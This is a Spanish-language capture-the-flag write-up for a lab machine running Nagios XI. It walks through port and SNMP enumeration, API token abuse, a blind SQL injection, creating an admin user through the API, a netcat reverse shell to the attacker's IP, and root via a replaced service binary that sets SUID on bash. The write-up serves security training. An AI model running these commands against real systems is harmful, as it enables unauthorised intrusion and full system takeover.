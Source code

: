 # Monitored Writeup

Escaneo de nmap para ecnontrar puertos

~~~bash
sudo nmap 10.10.11.248 -p- -sS --min-rate 5000 -n -vvv -Pn
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
389/tcp  open  ldap    syn-ack ttl 63
443/tcp  open  https   syn-ack ttl 63
5667/tcp open  unknown syn-ack ttl 63
sudo nmap 10.10.11.248 -sVC -p 22,80,389,443,5667
[sudo] password for h4m1: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-26 16:03 CST
Nmap scan report for monitored.htb (10.10.11.248)
Host is up (0.069s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61e2e7b41b5d46dc3b2f9138e66dc5ff (RSA)
|   256 2973c5a58daa3f60a94aa3e59f675c93 (ECDSA)
|_  256 6d7af9eb8e45c2026ad58d4db3a3376f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
5667/tcp open  tcpwrapped
~~~

Entramos al puerto 443 y vemos un panel de login.

[Imagen](Pasted image 20240226163529.png)

Enumeramos con ffuf

~~~bash
ffuf -c -t 200 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://monitored.htb/nagiosxi/FUZZ/

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://monitored.htb/nagiosxi/FUZZ/
 :: Wordlist         : FUZZ: /home/h4m1/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 84ms]
                        [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 485ms]
tools                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 394ms]
# This work is licensed under the Creative Commons [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 463ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 545ms]
# Copyright 2007 James Fisher [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 543ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 544ms]
# on at least 2 different hosts [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 546ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 545ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 581ms]
# directory-list-2.3-medium.txt [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 583ms]
# Priority ordered case-sensitive list, where entries were found [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 603ms]
reports                 [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 367ms]
admin                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 417ms]
account                 [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 327ms]
mobile                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 423ms]
help                    [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 530ms]
includes                [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 80ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 857ms]
#                       [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 857ms]
db                      [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 79ms]
about                   [Status: 200, Size: 18068, Words: 3095, Lines: 310, Duration: 1028ms]
api                     [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 97ms]
backend                 [Status: 200, Size: 108, Words: 4, Lines: 5, Duration: 465ms]
config                  [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 189ms]
views                   [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 111ms]
sounds                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 81ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 136ms]
                        [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 503ms]
~~~


Enumeramos la API

~~~bash
Hay un authenticate, pero nadamás
~~~

Vamos a ver UDP, porque esto parece un rabbit hole, escaneamos UDP y encontramos SNMP

~~~bash
sudo nmap -sU monitored.htb  
sudo nmap --script "snmp* and not snmp-brute" monitored.htb -sU -p 161
~~~

Encontramos mucha información para analizarla más lentamente usamos SNMPWALK

~~~bash
snmpwalk -v1 -c public monitored.htb > SNMPOUTPUT

HOST-RESOURCES-MIB::hrSWRunParameters.1406 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh <user> <password>"
~~~

Al parecer en ninguna parte podemos autenticarnos con estas credenciales, menos en un lugar, en la API

~~~bash
curl -s -X POST 'https://monitored.htb/nagiosxi/api/v1/authenticate/' -k -d "username=<user>password=<password>"
~~~

Posteriormente, podemos utilizar el token que nos genera en la app web

~~~url
https://monitored.htb/nagiosxi/login.php?token=873959fc95b5f1dac4a388c940fa0cf54198787a
~~~

Posteriormente parece que no somos administradores, pero logramos ver que se está corriendo NagiosXI 5.11.0, vemos que hay varias vulnerabilidades, la funcional es la sqli...

https://vuldb.com/?id.239985

Podemos ver que es aprovechándonos de lo siguiente:

~~~url
/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3
~~~

Con esto me pongo a probar la vulnerabilidad en burpsuite y posteriormente cree un script, parece ser una blind sqli

![[Pasted image 20240228170012.png]]

Adjunto también el [script](https://github.com/Hamibubu/CVE-2023-48084) con el que consigo dumpear todo

Después de un rato encuentro que el hash no es posible crackear pero hay api key, investigando, con esa api key es posible crear un usuario con privilegios de administrador

https://support.nagios.com/forum/viewtopic.php?p=276220
https://support.nagios.com/forum/viewtopic.php?f=16&t=42923

~~~bash
curl -XPOST "http://monitored.htb/nagiosxi/api/v1/system/user?apikey=<api_key>&pretty=1" -d "username=hackerman&password=1234&name=HackerMan&email=hacker@monitored.htb&auth_level=admin" -k
~~~

Con esto gano admin access y hay una RCE que se puede aprovecharse, podemos crear comandos que queramos

![[Pasted image 20240228170903.png]]

Aplicamos la configuración y ahora escuchamos con netcat

~~~bash
nc -lvnp 6666
~~~

![[Pasted image 20240228171117.png]]

Ejecutamos el comando con, netcat al parecer es con el que funciona `nc 10.10.15.2 6666 -e /bin/bash`

Llegamos ahora sí al user, comenzamos a hacer un reconocimiento, ejecutamos sudo -l y vemos lo siguiente


~~~bash
nagios@monitored:~$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
~~~

Hay gran cantidad de binarios y podemos manejarlos al antojo

~~~bash
# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")
~~~

Tenemos varios servicios que podemos manejar, en base a esto podemos buscar estos 

~~~bash
echo '"postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm"' | tr -d '"' | tr " " "\n" > services

nagios@monitored:~$ while read -r serv; do find / -writable -name "$serv" 2>/dev/null; done < services
/usr/local/nagios/bin/nagios
/home/nagios
/usr/local/nagios/bin/npcd
nagios@monitored:~$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
~~~

Podemos ver que podemos modificar nagios, lo podemos borrar y hacer que haga cosas, detenemos el servicio, lo borramos, cambiamos por un script de bash que nos genere una bash con permisos suid

~~~
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop nagios
nagios@monitored:~$ rm /usr/local/nagios/bin/nagios
nagios@monitored:~$ nano /usr/local/nagios/bin/nagios
nagios@monitored:~$ chmod 774 /usr/local/nagios/bin/nagios
nagios@monitored:~$ cat /usr/local/nagios/bin/nagios
#!/bin/bash
chmod u+s /bin/bash
nagios@monitored:~$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 32 Feb 28 18:39 /usr/local/nagios/bin/nagios
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start nagios
Job for nagios.service failed because the control process exited with error code.
See "systemctl status nagios.service" and "journalctl -xe" for details.
nagios@monitored:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
nagios@monitored:~$ bash -p
bash-5.1# whoami
root
bash-5.1# 
~~~

Volvemos a correr eso y con ello ganamos el root de una forma sencilla

